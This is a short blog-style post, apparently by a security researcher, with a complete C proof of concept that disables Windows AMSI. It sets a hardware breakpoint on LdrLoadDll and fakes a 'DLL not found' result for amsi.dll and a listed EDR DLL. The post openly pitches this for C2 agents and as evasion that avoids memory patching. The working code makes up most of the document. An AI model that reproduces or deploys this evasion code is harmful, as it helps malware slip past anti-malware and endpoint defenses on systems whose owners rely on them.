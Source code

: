 ```yaml
---
title: 'If you don’t want Anti-Malware Scan Interface (AMSI) then DON’T LOAD IT'
---
```

Quick PoC that disables AMSI by preventing the `amsi.dll` from being loaded into the process. This could be useful for C2 agents that have execute-assembly functionality and don’t want AMSI being enabled.

Process Monitor (from Sysinternals) gives us a good idea about what’s happening when a DLL is being loaded into a process. All the file system activity is happing inside the LoadLibrary function. 
![Procmon UI](/assets/img/2025-05-01/procmon_mainUI.png)

We can open something like the `CreateFileMapping` Win32 API call and look at the stack trace to verify it happened from inside the `LoadLibraryExW` function. We could hook any of these functions, and like `NtCreateSection` but every `LoadLibrary` variation uses `LdrLoadDll` so that a really good choice and high in the call stack. 
![Procmon UI](/assets/img/2025-05-01/procmon_looking_at_a_call.png)

The PoC puts a hardware breakpoint on `LdrLoadDll`, and then checks the name of every DLL being loaded, and if it finds `amsi.dll`, simulates a `STATUS_DLL_NOT_FOUND` error.

Its also got the advantage of not patching any memory to be OPSEC safe.

```c
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>

#define ArraySize(x) (sizeof x / sizeof x[0])

typedef NTSTATUS (NTAPI* LdrLoadDll)(
    IN  PWCHAR          PathToFile OPTIONAL,
    IN  ULONG           Flags OPTIONAL,
    IN  PUNICODE_STRING ModuleFileName,
    OUT PHANDLE         ModuleHandle
);

LdrLoadDll fnLdrLoadDll = NULL;

LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo) {

    PCWCHAR blockedDLLs[] = {
        L"amsi.dll",
        L"EDR.dll",
    };

    // Check if this is a single-step exception caused by a hardware breakpoint
    if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP) {
        // Check if the breakpoint was hit for LdrLoadDll
        if (ExceptionInfo->ExceptionRecord->ExceptionAddress == fnLdrLoadDll) {
            // x64 calling convention, 3rd parameter is in R8
            PUNICODE_STRING moduleName = (PUNICODE_STRING)ExceptionInfo->ContextRecord->R8;
            if (moduleName && moduleName->Buffer) {
                for (DWORD i = 0; i < ArraySize(blockedDLLs); i++) {
                    // Performs a case-insensitive comparison of strings
                    if (_wcsicmp(moduleName->Buffer, blockedDLLs[i]) == 0) {
                        // we dont want to load it, so simulate a ret
                        ExceptionInfo->ContextRecord->Rip = *(ULONG_PTR*)ExceptionInfo->ContextRecord->Rsp;
                        ExceptionInfo->ContextRecord->Rsp += sizeof(PVOID);
                        ExceptionInfo->ContextRecord->Rax = STATUS_DLL_NOT_FOUND;
                        wprintf(L"BLOCKED: %wZ\n", moduleName);
                        break;
                    }
                }
            }

            // Set the resume flag before continuing execution
            ExceptionInfo->ContextRecord->EFlags |= 0x10000;
            return EXCEPTION_CONTINUE_EXECUTION;
        }
    }

    return EXCEPTION_CONTINUE_SEARCH;
}

void EnableBreakpoint(HANDLE hThread, const PVOID address) {

    CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };

    if (!GetThreadContext(hThread, &context)) {
        return;
    }

    context.Dr0 = (DWORD_PTR)address;
    context.Dr7 |= 1;  // Enable the breakpoint for execution on DR0

    // Set the thread context with the updated debug registers
    if (!SetThreadContext(hThread, &context)) {
        return;
    }

}

int main(void) {

    HMODULE ntdll = GetModuleHandle(TEXT("ntdll.dll"));
    if (!ntdll) return 1;

    fnLdrLoadDll = (LdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
    if (!fnLdrLoadDll) return 1;

    HANDLE hExHandler = AddVectoredExceptionHandler(1, ExceptionHandler);
    EnableBreakpoint(GetCurrentThread(), fnLdrLoadDll);

    HMODULE amsi = LoadLibrary(TEXT("amsi.dll"));
    if (!amsi) {
        printf("LoadLibrary failed: %lu\n", GetLastError());
        // I bet you'll get
        // ERROR_MOD_NOT_FOUND 126 (0x7E)
        // https://learn.microsoft.com/en-us/windows/win32/debug/system-error-codes--0-499-
    }

    return 0;
}
```